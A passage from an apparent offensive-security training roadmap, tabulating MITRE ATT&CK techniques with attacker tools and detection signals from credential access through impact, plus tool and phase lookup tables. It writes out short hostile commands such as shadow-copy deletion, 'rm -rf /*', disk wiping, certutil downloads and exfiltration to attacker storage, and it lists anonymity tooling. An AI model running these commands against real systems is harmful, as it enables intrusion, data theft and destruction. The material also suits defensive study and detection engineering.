| Steal or Forge Authentication Certificates | ADCS ESC3 | T1649 | Certificate Request Agent abuse, enrollment on behalf of | AD CS audit: cert issued to agent for another account |
| Steal or Forge Authentication Certificates | ADCS ESC4 | T1649 | Modify vulnerable template ACL, add ENROLLEE_SUPPLIES_SUBJECT | Event 4670: permissions changed on cert template |
| Steal or Forge Authentication Certificates | ADCS ESC6 | T1649 | EDITF_ATTRIBUTESUBJECTALTNAME2 flag on CA | AD CS: CA flag audit via certutil |
| Steal or Forge Authentication Certificates | ADCS ESC8 (NTLM Relay) | T1649 | Coerce auth + relay to AD CS HTTP endpoint (ntlmrelayx) | Network: NTLM relay traffic. Event 4886: cert issued unexpectedly to coerced machine account |
| Steal or Forge Authentication Certificates | Shadow Credentials | T1649 | Certipy shadow auto, pywhisker: add msDS-KeyCredentialLink | Event 5136: attribute modification on target object (msDS-KeyCredentialLink) |
| Forced Authentication | NTLM Coercion | T1187 | PetitPotam, DFSCoerce, PrinterBug, Coercer.py | Network: unexpected NTLM auth from DC to attacker host. Event 4776 on DC |
| Brute Force | Password Spraying | T1110.003 | kerbrute, spray.py, nxc smb --password | Event 4625: multiple failed logins across many accounts. Event 4771: many AS-REQ failures |
| Brute Force | Credential Stuffing | T1110.004 | Breached DB + spray against VPN/OWA/M365 | UEBA: impossible travel, abnormal login geography. Auth log: spike in failures |
| Brute Force | Password Cracking | T1110.002 | hashcat, john: NTLM, NTLMv2, Kerberos hashes offline | No online detection: occurs offline. Defense: enforce long passwords, disable RC4 |
| Use Alternate Authentication Material | Pass the Hash | T1550.002 | nxc, pth-winexe, Mimikatz sekurlsa::pth | Event 4624 Logon Type 3 + NTLM + anomalous source. Event 4648: alternate credential logon |
| Use Alternate Authentication Material | Pass the Ticket | T1550.003 | Mimikatz kerberos::ptt, Rubeus ptt /ticket: | Event 4769: ticket used from unexpected host. klist shows injected ticket |
| Use Alternate Authentication Material | Application Access Token | T1550.001 | Microsoft Teams token replay, OAuth access token reuse | CASB: token used from new device/geography after phish |
| Steal Application Access Token | -- | T1528 | Azure PRT theft (ROADtools), GCP WIF token, AWS IMDS IAM role, device code phish result | Entra ID: sign-in from new device, MFA anomaly. AWS: CloudTrail GetCallerIdentity spike |
| Steal Web Session Cookie | -- | T1539 | Evilginx3 AiTM session cookie capture, BrowserCookiesView | Browser: parallel session from different IP. Entra CA: impossible travel on session token |
| Forge Web Credentials | SAML Token | T1606.002 | Golden SAML (ADFS SAML signing cert theft), AADInternals | SIEM: SAML assertion with no corresponding login event. ADFS Event 1202 |
| Unsecured Credentials | Credentials in Files | T1552.001 | LaZagne, findstr /si password *.xml *.ini, LAPS attribute read via LDAP | Sysmon 11: access to credential files. EDR: mass file read in short time |
| Unsecured Credentials | Private Keys | T1552.004 | id_rsa, .pfx, GitHub Actions secret, CI/CD env vars | File: access to .ssh/ or key file. Pipeline: secret printed to build log |
| Unsecured Credentials | Container API | T1552.007 | kubectl get secrets, docker inspect (env vars), EC2 IMDS endpoint | K8s audit: secret enumeration. AWS CloudTrail: GetSecretValue |
| Credentials from Password Stores | Web Browser | T1555.003 | LaZagne, SharpChrome, Chrome Login Data file | File: access to Chrome Login Data. Sysmon 10: Chrome process accessed by external process |
| Credentials from Password Stores | Windows Credential Manager | T1555.004 | cmdkey /list, vaultcmd, SharpDPAPI | Event 4648: vault access. Sysmon: cmdkey.exe execution |
| Modify Authentication Process | -- | T1556 | Entra ID CA policy modification, ADFS claims rule edit, skeleton key injection | Entra CA: policy change alert. ADFS: claims rule modification audit |

> **Correction note (vs previous version):** WIF Token Theft was previously mapped to T1552.001 (Credentials in Files). T1552.001 covers credentials stored in flat files on disk. Workload Identity Federation tokens are application-layer OAuth/OIDC tokens issued to cloud workloads. The correct mapping is **T1528** (Steal Application Access Token). T1552.007 (Container API) applies when stealing credentials via the IMDS endpoint or container environment variable access.

---

## 10. TA0007: Discovery

> Mapping the environment after gaining initial access. Determines next steps and targets.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Account Discovery | Local Account | T1087.001 | net user, Get-LocalUser, id/passwd (Linux) | Event 4688: net.exe with "user" argument |
| Account Discovery | Domain Account | T1087.002 | net user /domain, Get-ADUser, ldapdomaindump | LDAP query log on DC: large query from workstation |
| Account Discovery | Email Account | T1087.003 | Get-Mailbox (Exchange), AADInternals user enumeration | Exchange: unusual mailbox enumeration. M365 audit: list users |
| Account Discovery | Cloud Account | T1087.004 | az ad user list, aws iam list-users, gcloud iam list | Cloud audit log: mass user enumeration burst by IAM identity |
| Domain Trust Discovery | -- | T1482 | nltest /domain_trusts, Get-ADTrust, BloodHound trust edges | Event 4688: nltest.exe. LDAP: trust object query |
| Permission Groups Discovery | Local Groups | T1069.001 | net localgroup administrators | Event 4688: net.exe with "localgroup" |
| Permission Groups Discovery | Domain Groups | T1069.002 | net group "Domain Admins" /domain, Get-ADGroupMember | LDAP query on DC: group membership enumeration |
| Permission Groups Discovery | Cloud Groups | T1069.003 | az ad group list, aws iam list-groups | Cloud audit log: group enumeration |
| System Information Discovery | -- | T1082 | systeminfo, uname -a, Get-ComputerInfo, wmic os get | Event 4688: systeminfo.exe. Baseline: unusual system query from workstation |
| System Network Configuration Discovery | -- | T1016 | ipconfig /all, route print, arp -a, ip route | Event 4688: ipconfig.exe, route.exe, arp.exe in sequence |
| Remote System Discovery | -- | T1018 | net view, nmap internal range, arp -a, NBT scan | Network: ICMP sweep, SMB probe to multiple hosts |
| Network Service Discovery | -- | T1046 | nmap -sV, masscan, nxc smb/ldap scan | Network IDS: port scan signature. Firewall: connection attempts to closed ports |
| Network Share Discovery | -- | T1135 | net share, net view \\host, Get-SmbShare | Event 4688: net.exe. Sysmon 3: SMB to multiple hosts in short window |
| Group Policy Discovery | -- | T1615 | Get-GPO, gpresult /h, SharpGPO | LDAP: GPO query from workstation. Event 4688: gpresult.exe |
| Software Discovery | -- | T1518 | wmic product get, Get-InstalledApplication, dpkg -l | Event 4688: wmic.exe with "product get" |
| File and Directory Discovery | -- | T1083 | dir /s, ls -la /etc, find / -name *.config | auditd/Sysmon: mass file access in short time. EDR: process accessing many files |
| Process Discovery | -- | T1057 | tasklist, ps aux, Get-Process | Baseline: unusual process listing. Event 4688: tasklist.exe not from admin tool |
| Cloud Service Discovery | -- | T1526 | az resource list, aws ec2 describe-instances | Cloud audit log: resource enumeration burst by IAM identity |
| Query Registry | -- | T1012 | reg query, RegQueryValueEx for specific keys | Sysmon 12/13: registry read on sensitive keys from unusual process |

---

## 11. TA0008: Lateral Movement

> Moving from the initial foothold to other machines, accounts, or environments.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Remote Services | Remote Desktop Protocol | T1021.001 | mstsc, xfreerdp, SharpRDP, RDP session hijack | Event 4624 Logon Type 10 (remote interactive). Event 4778: session reconnect |
| Remote Services | SMB/Windows Admin Shares | T1021.002 | nxc smb --exec, psexec, smbexec, PsExec | Event 4624 Logon Type 3 + 5140 (ADMIN$/C$ share access). Event 7045: service installed |
| Remote Services | DCOM | T1021.003 | SharpCOM, remote MMC20.Application.ExecuteShellCommand | Event 4688: dllhost.exe from DCOM. Event 4624 Logon Type 3 from DCOM |
| Remote Services | SSH | T1021.004 | ssh -i stolen_key, sshpass, authorized_keys write | auth.log/journald: ssh login from new IP. New entry in authorized_keys |
| Remote Services | WinRM | T1021.006 | evil-winrm, Invoke-Command -ComputerName, Enter-PSSession | Event 4624 Logon Type 3 + WSMan traffic (port 5985/5986). Event 4688: wsmprovhost.exe |
| Remote Services | VNC | T1021.005 | RealVNC, TightVNC exploitation | Network: VNC port (5900) connection from lateral source |
| Exploitation of Remote Services | -- | T1210 | EternalBlue (MS17-010), BlueKeep, ProxyLogon, ProxyShell | IDS: exploit traffic pattern. Event 4625: failed logins before exploitation |
| Adversary-in-the-Middle | LLMNR/NBT-NS Poisoning | T1557.001 | Responder.py, Inveigh: capture NTLMv2 hashes | Network: LLMNR/NBNS response from non-authoritative source |
| Adversary-in-the-Middle | ARP Cache Poisoning | T1557.002 | arpspoof, bettercap ARP poison | Network: duplicate ARP responses. ARP table: MAC changed for known gateway |
| Adversary-in-the-Middle | DHCP Spoofing | T1557.003 | DHCP starvation + rogue server (yersinia) | Network: DHCP server from unexpected source |
| Use Alternate Authentication Material | Pass the Hash | T1550.002 | As above in Credential Access | As above |
| Use Alternate Authentication Material | Pass the Ticket | T1550.003 | As above in Credential Access | As above |
| Internal Spearphishing | -- | T1534 | Microsoft Teams phishing DM, Slack DM with malicious link | CASB: Teams external link + file to internal user. UBA: message volume anomaly |
| Remote Service Session Hijacking | SSH Hijacking | T1563.001 | Inherit SSH agent socket (SSH_AUTH_SOCK), ssh-agent hijack | auth.log: commands under another user's SSH session |
| Remote Service Session Hijacking | RDP Hijacking | T1563.002 | tscon.exe to hijack disconnected RDP session | Event 4778: session reconnect from unexpected user. Sysmon: tscon.exe execution |
| Taint Shared Content | -- | T1080 | Place DLL/LNK in shared drive accessed by other users | Sysmon 11: file creation in network share. File integrity: share monitoring |
| Lateral Tool Transfer | -- | T1570 | certutil -urlcache, bitsadmin, Invoke-WebRequest to remote host | Network: HTTP/HTTPS to attacker C2 from internal host. Sysmon 3: new outbound connection |

---

## 12. TA0009: Collection

> Gathering the targeted data after achieving access and positioning.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Data from Local System | -- | T1005 | Robocopy /MIR, PowerShell file gather scripts | Sysmon: mass file read/open. EDR: process accessing many files of target type |
| Data from Network Shared Drive | -- | T1039 | net use, Invoke-ShareFinder + copy | Event 5140/5145: share access. Network: large volume SMB read |
| Data from Information Repositories | SharePoint | T1213.002 | Microsoft Graph API download, PnP PowerShell | M365 audit: mass download from SharePoint |
| Data from Information Repositories | Confluence | T1213.001 | Confluence REST API export, curl | Confluence audit log: export or bulk download by unusual account |
| Email Collection | Local Email Collection | T1114.001 | Outlook PST export, MAPI access to .ost file | Sysmon: access to PST/OST file by non-Outlook process |
| Email Collection | Remote Email Collection | T1114.002 | Microsoft Graph /mail/messages, EWS dump (MailSniper) | M365: mass email download. Exchange: EWS query with large result set |
| Email Collection | Email Forwarding Rule | T1114.003 | New-InboxRule to forward all to external, OWA rule | M365 audit: new inbox rule created. Alert: forward to external domain |
| Screen Capture | -- | T1113 | GDI+ ScreenCapture, PowerShell System.Drawing, keylogger screenshot | EDR: unexpected BitBlt/ScreenCapture API calls |
| Clipboard Data | -- | T1115 | GetClipboardData Win32 API, PowerShell Get-Clipboard | Sysmon 28 (clipboard change). EDR: clipboard access from non-UI process |
| Automated Collection | -- | T1119 | Collection scripts (7-zip + robocopy loop), Meterpreter stdapi | EDR: sustained high-volume file access. DLP: many files compressed in short time |
| Archive Collected Data | Archive via Utility | T1560.001 | 7z a, zip -r, tar -czf | Sysmon 1: 7z.exe or tar.exe with unexpected archive output path |
| Data Staged | Local Data Staging | T1074.001 | Copy to C:\ProgramData\, C:\Temp\ before exfil | Sysmon 11: file copy to staging path. DLP: accumulation of sensitive files |
| Data Staged | Remote Data Staging | T1074.002 | Stage on previously compromised internal host | Network: large inter-host transfer to pivot point |
| Input Capture | Keylogging | T1056.001 | SetWindowsHookEx WH_KEYBOARD_LL, driver-based keylogger | EDR: SetWindowsHookEx with WH_KEYBOARD_LL by non-UI process |

---

## 13. TA0011: Command and Control

> Maintaining reliable, covert communication with the implant. Phase 4B core content.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Application Layer Protocol | Web Protocols (HTTP/S) | T1071.001 | Sliver HTTP/S listener, Cobalt Strike HTTP beacon, custom C2 | Network: periodic beaconing with consistent jitter. TLS: self-signed or LE cert for C2 domain |
| Application Layer Protocol | DNS | T1071.004 | DNS C2 (dnscat2, iodine, custom TXT/A records) | DNS: high-frequency queries for long subdomains with data |
| Application Layer Protocol | SMB/Named Pipe | T1071 | Cobalt Strike SMB beacon, custom named pipe protocol | Sysmon 17/18: named pipe create/connect with unusual name |
| Proxy | Internal Proxy | T1090.001 | Ligolo-ng agent, chisel SOCKS5, Meterpreter socks | Network: SOCKS5 on internal host. Sysmon 3: listening port on workstation |
| Proxy | External Proxy | T1090.002 | VPS relay, Proxychains through cloud server | Network: C2 traffic routed through cloud provider IP |
| Proxy | Multi-hop Proxy | T1090.003 | Proxy chaining: VPS1 > VPS2 > target, Tor | Network: Tor exit node traffic. Multiple hop latency pattern |
| Proxy | Domain Fronting | T1090.004 | CDN fronting (Cloudflare, Azure CDN, Fastly) with malleable C2 | TLS: SNI mismatch vs Host header. CDN: abuse report |
| Non-Application Layer Protocol | -- | T1095 | ICMP C2 (icmpsh, ptunnel), raw TCP, custom UDP | Network: ICMP with large payload or data in echo reply |
| Protocol Tunneling | -- | T1572 | DNS-over-HTTPS C2, SSH reverse tunnel, HTTP CONNECT tunnel | Network: high-volume DoH, SSH from unexpected endpoint |
| Dynamic Resolution | Domain Generation Algorithm | T1568.002 | Malware with built-in DGA (time-based domain generation) | DNS: query burst to multiple NXDOMAIN responses with pattern |
| Dynamic Resolution | Fast Flux | T1568.001 | DNS record with very short TTL rotating to many IPs | DNS: TTL less than 300s, IP rotation for single domain |
| Encrypted Channel | Symmetric Encryption | T1573.001 | AES-encrypted C2 channel, XOR over TCP | Network: encrypted traffic with no TLS handshake. Deep packet inspection fails |
| Encrypted Channel | Asymmetric Encryption | T1573.002 | RSA key exchange for C2 session, custom TLS pinning | TLS inspection: pinned cert does not match CA-signed. JA3/JA3S fingerprint |
| Ingress Tool Transfer | -- | T1105 | certutil -urlcache, Invoke-WebRequest, curl, bitsadmin transfer | Sysmon 3: HTTP GET from LOLBin (certutil, mshta). Web proxy: download from new domain |
| Data Encoding | Standard Encoding | T1132.001 | Base64-encoded C2 traffic in HTTP body or DNS | Network: base64 pattern in HTTP body. DNS: base64 in hostname |
| Data Encoding | Non-Standard Encoding | T1132.002 | Custom alphabet base64, XOR-encoded HTTP params | Network: non-standard encoding pattern. Entropy analysis |
| Fallback Channels | -- | T1008 | Primary HTTP fails, fallback to DNS C2 | Network: sudden shift in protocol after primary C2 goes dark |
| Web Service | Bidirectional Communication | T1102.002 | Slack/Discord/Teams webhook for C2, Twitter DM C2 | CASB: API calls to collaboration platform from endpoint without browser |

---

## 14. TA0010: Exfiltration

> Getting data out without triggering DLP, egress filtering, or SIEM alerts.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Exfiltration Over C2 Channel | -- | T1041 | Upload staged archive through existing C2 HTTP/S channel | DLP: large upload to known C2. Beacon: unusually large response from implant |
| Exfiltration Over Alternative Protocol | Symmetric Encrypted Non-C2 | T1048.001 | SFTP to VPS, custom encrypted TCP on non-standard port | Firewall: outbound to VPS IP on unusual port. DLP: encrypted large transfer |
| Exfiltration Over Alternative Protocol | DNS | T1048.003 | dnscat2 file transfer, base64 in TXT queries | DNS: high query volume, large TXT responses, long subdomains |
| Exfiltration Over Web Service | Cloud Storage | T1567.002 | aws s3 cp, rclone to attacker S3/GDrive/Mega.nz | DLP: upload to cloud storage provider by unusual process |
| Exfiltration Over Web Service | Code Repository | T1567.001 | git push to attacker GitHub repo | DLP: git.exe push to external repo. Network: HTTPS to github.com with POST |
| Exfiltration Over Physical Medium | USB | T1052.001 | Copy to USB, Rubber Ducky exfil | DLP: file copy to removable media. Event 6416: removable storage device |
| Scheduled Transfer | -- | T1029 | Transfer only at specific hours (3 AM), low-and-slow exfil | DLP: baseline shows normal hours, exfil at off-hours |
| Data Transfer Size Limits | -- | T1030 | Chunk large archive into 10 MB pieces, stagger transfers | DLP: multiple small uploads to same destination. Hard to trigger size threshold |
| Automated Exfiltration | Traffic Duplication | T1020.001 | Mirror traffic to attacker collector, network tap | Network: unexpected SPAN/RSPAN configuration |

---

## 15. TA0040: Impact

> The final objective: data destruction, ransomware, disruption, or achieving strategic goals.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Data Encrypted for Impact | -- | T1486 | Ransomware: mass AES file encryption, ransom note drop | EDR: mass file rename/encrypt in short time. Honeypot/decoy files triggered |
| Inhibit System Recovery | -- | T1490 | vssadmin delete shadows /all, bcdedit /set recoveryenabled No | Event 4688: vssadmin.exe with "delete shadows". EDR: bcdedit with recovery disable |
| Data Destruction | -- | T1485 | sdelete, rm -rf /*, wipe MFT, overwrite sectors | EDR: mass file deletion. Storage: sector-level write outside normal OS operation |
| Disk Wipe | Disk Content Wipe | T1561.001 | dd if=/dev/zero, Eraser, custom overwrite tool | EDR: raw disk access from user process |
| Disk Wipe | Disk Structure Wipe | T1561.002 | Overwrite MBR/VBR, wipe partition table | Boot failure. EDR: raw write to first sectors of disk |
| Service Stop | -- | T1489 | net stop, Stop-Service, kill -9 for critical services | Event 7036: service stopped unexpectedly. SIEM: critical service down alert |
| Defacement | Internal Defacement | T1491.001 | Replace intranet page, change AD background | Web: file modification on intranet root. AD: GPO desktop background changed |
| Network Denial of Service | -- | T1498 | Amplification attack from compromised host, SYN flood | Network: spike in outbound UDP/ICMP from endpoint |
| System Shutdown/Reboot | -- | T1529 | shutdown /r /f, Restart-Computer, reboot -f (Linux) | Event 1074: system shutdown initiated. Unexpected reboot during business hours |
| Resource Hijacking | -- | T1496 | Cryptominer deployment (XMRig), GPU compute abuse | CPU/GPU: sustained 100% utilization. Network: connection to mining pool IP/domain |

---

## 16. Roadmap Phase to Technique Mapping

This section maps each roadmap phase directly to the MITRE tactics and technique IDs most relevant to that phase of training.

<table><tr><td>



</td></tr></table>

### Phase-Level Technique Lookup Table

| Phase | Core Technique IDs | Key Tools |
|---|---|---|
| Phase -1 (OPSEC) | T1583.001/3/4, T1584, T1090.003, T1573 | Mullvad VPN, Tor, Monero, VPS registration |
| Phase 0 (Foundation) | T1595, T1592, T1593, T1589, T1596 | nmap, subfinder, theHarvester, shodan, amass |
| Phase 1 (Web) | T1190, T1566, T1059.001/3/7, T1218.010/11, T1027.010 | Burp Suite, sqlmap, ffuf, gobuster, nuclei |
| Phase 2 (Network+AD) | T1021, T1557.001, T1550.002/3, T1003.001/6, T1558.003/4 | Responder, nxc, Mimikatz, secretsdump, Rubeus |
| Phase 3 (Exploitation) | T1068, T1055.001/4/12, T1134.001, T1548.002, T1562.001 | HEVD, pwntools, GEF, Metasploit, UACME |
| Phase 4A (Malware) | T1055 (all), T1620, T1027, T1547.001, T1543.003 | sRDI, Donut, custom C++ implant, pe2shellcode |
| Phase 4B (C2) | T1071.001/4, T1090.002/4, T1573.001/2, T1572, T1095 | Sliver, Cobalt Strike, dnscat2, Ligolo-ng |
| Phase 4C (EDR Evasion) | T1562.001, T1562.006, T1106, T1027.007, T1027, T1543.003+T1562.001 | SysWhispers3, BYOVD (RTCore64/DBUtil), Ekko/Foliage |
| Phase 4D (Vuln Research) | T1587.004, T1203, T1068 | AFL++, GDB, Ghidra, WinDbg, radare2 |
| Phase 4E (Persistence/Rootkits) | T1542.001/3, T1546.003/15, T1547.004/5/6, T1574.001 | LoJax, UEFITool, WMIBackdoor, COM hijack scripts |
| Phase 4F (Web/Cloud) | T1557, T1539, T1528, T1649, T1534, T1213.002, T1114.002 | Evilginx3, Certipy, AADInternals, GraphRunner, MailSniper |
| Phase 4G (Hardware/ICS) | T1200, T1542.001, T1091, ICS T0836/T0855/T0833 | Flipper Zero, Bus Pirate, ChipWhisperer, OpenPLC |
| Phase 4H (Supply Chain) | T1195.001/2, T1552.004, T1176, T1587.001, T1608 | npm publish, pypi-upload, GitHub Actions OIDC abuse |
| Phase 4I (AD Full Depth) | T1558.001/2/3/4, T1649 (ESC1-15), T1187, T1003.006, T1484 | Certipy, Rubeus, BloodHound, Coercer, impacket |
| Phase 5 (GREATEST: 0-Day & VR) | T1587.004, T1588.005/6, T1068, T1211, T1542.001 | kAFL/Nyx, Syzkaller, QEMU-KVM, WinDbg (KDNET), d8/SpiderMonkey, IDA Pro / BinJa |
| Phase 6 (Special Operations) | T1200, T1566.004, T1598, T1557, T1584.004, T1001 | Proxmark3 RDV4, Flipper Zero, HackRF One, MicroSIP, Chisel/WireGuard, Lishi picks |

---

## 17. Critical Attack Chain Diagrams

### 17.1 Full Active Directory Compromise Chain

<table><tr><td>



</td></tr></table>

### 17.2 AiTM Phishing to Persistent Cloud Access

<table><tr><td>



</td></tr></table>

### 17.3 Implant Execution and EDR Evasion Chain

<table><tr><td>



</td></tr></table>

### 17.4 Cloud Lateral Movement Chain

<table><tr><td>



</td></tr></table>

### 17.5 Supply Chain Attack Chain

<table><tr><td>



</td></tr></table>

### 17.6 Browser JIT to Kernel & Hypervisor Escape Chain (Phase 5)

<table><tr><td>



</td></tr></table>

### 17.7 Full-Scope Multi-Domain Physical-to-Cloud Chain (Phase 6)

<table><tr><td>



</td></tr></table>

---

## 18. Tool to Technique Mapping

A fast lookup: given a specific tool, which MITRE technique IDs does it exercise?

| Tool | Technique IDs | Category |
|---|---|---|
| nmap | T1595.001, T1046 | Reconnaissance, Discovery |
| masscan | T1595.001, T1046 | Reconnaissance |
| subfinder / amass | T1590.002, T1593 | Reconnaissance |
| theHarvester | T1589.002, T1591 | Reconnaissance |
| Shodan CLI | T1596.005, T1592 | Reconnaissance |
| truffleHog / gitleaks | T1593.003, T1552.004 | Reconnaissance, Credential Access |
| Burp Suite | T1190, T1212, T1187 | Initial Access, Execution |
| sqlmap | T1190 | Initial Access |
| ffuf / gobuster / feroxbuster | T1595.003 | Reconnaissance |
| nuclei | T1595.002, T1190 | Reconnaissance, Initial Access |
| Evilginx3 | T1566.002, T1539, T1557 | Initial Access, Credential Access |
| Responder / Inveigh | T1557.001 | Credential Access (NTLM capture) |
| Mimikatz | T1003.001, T1550.002/3, T1558.001/2, T1134 | Credential Access |
| impacket-secretsdump | T1003.001/2/6, T1550.002 | Credential Access |
| Rubeus | T1558.001/2/3/4, T1550.003 | Credential Access |
| Certipy | T1649 (ESC1-15), T1649 (Shadow Creds) | Credential Access (ADCS) |
| BloodHound + SharpHound | T1087.002, T1482, T1069.002 | Discovery |
| ldapdomaindump | T1087.002, T1069.002 | Discovery |
| PingCastle | T1082, T1087.002, T1482 | Discovery |
| nxc (NetExec) | T1021.002, T1550.002, T1135, T1110.003 | Multiple |
| evil-winrm | T1021.006 | Lateral Movement |
| psexec (Sysinternals) | T1021.002, T1569.002 | Lateral Movement |
| Ligolo-ng | T1090.001, T1572 | C2, Proxy |
